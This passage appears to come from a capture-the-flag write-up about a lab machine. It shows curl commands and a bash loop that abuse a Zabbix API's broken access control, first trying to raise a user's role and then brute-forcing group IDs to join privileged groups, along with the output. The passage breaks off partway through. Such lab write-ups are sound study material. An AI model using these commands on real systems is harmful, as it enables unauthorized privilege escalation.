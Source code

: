 ```bash
curl -s -X POST --url http://10.10.11.50/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.checkAuthentication", "params":{"token": "acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd"}, "id": 1}' | jq -r '.result.name'
```

We get this:

```
pwned
```

So, it worked, we are able to interact with the API and change stuff in it, let's try to abuse `Broken Access Control` to change our `roleid` to the admin one, which must be `roleid=0`:

```bash
curl -X POST --url http://10.10.11.50/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.update", "params":{"userid": "3", "roleid": "0"},"auth":"acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd", "id": 1}' -s | jq
```

We get the following:

```json
{
  "jsonrpc": "2.0",
  "error": {
    "code": -32602,
    "message": "Invalid params.",
    "data": "User cannot change own role."
  },
  "id": 1
}
```

It seems like there's some sort of method to prevent users from changing their own role, here's the way to break this, first, we need to find some way to add ourselves into the admin group, for this, we need to exploit the `usrgprps` parameter, in this case, let's use some brute force in order to add ourselves into as many groups as possible:

```bash
for i in {0..50}; do response=$(curl -s -X POST --url http://10.10.11.50/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data "{\"jsonrpc\": \"2.0\", \"method\":\"user.update\", \"params\":{\"usrgrps\": [{\"usrgrpid\": $i}], \"userid\": \"3\"},\"auth\":\"acd87cfdc51fc832b066a4d3beebf72d30d88e64404c0972374502fbd41407dd\", \"id\": 3}"); [[ $response != *\"error\"* ]] && echo "Group ID: $i"; done
```

We get the following output:

```
Group ID: 7
Group ID: 8
Group ID: 11
Group ID: 13
```

And now, we can check our groups:
